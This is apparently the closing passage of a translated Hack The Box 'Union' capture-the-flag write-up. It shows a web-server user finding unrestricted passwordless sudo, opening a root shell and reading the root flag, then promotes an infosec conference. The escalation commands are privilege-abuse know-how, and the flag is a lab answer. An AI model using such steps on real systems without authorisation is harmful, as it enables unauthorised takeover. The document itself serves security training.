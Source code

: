 ```
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$
```

# 根标志

我们可以以 root 用户身份运行任何命令，让我们获取标志并完成框:

```
www-data@union:~/html$ sudo /bin/bash
sudo /bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fd73c7c952ca60ad21b71132697bdfd7
```

我希望你和我一样喜欢那个盒子，尤其是尽可能多地从终端尝试。

又做了一个。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 1 月 10 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-union)*。*

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)